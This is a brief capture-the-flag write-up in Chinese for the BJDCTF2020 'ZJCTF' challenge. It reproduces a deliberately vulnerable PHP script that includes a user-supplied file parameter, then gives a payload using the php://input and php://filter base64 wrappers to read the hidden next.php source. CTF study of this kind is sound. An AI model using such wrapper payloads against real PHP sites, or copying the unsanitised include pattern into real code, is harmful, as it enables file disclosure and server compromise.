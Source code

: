 # [BJDCTF2020]ZJCTF，不过如此
> 观察题目直接给出的源码不难发现可以直接用伪协议绕过

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
> Payload：

```
GET：text=php://input&file=php://filter/read/convert.base64-encode/resource=next.php
POST：I have a dream
```

<img src="./images/9.png" alt="">
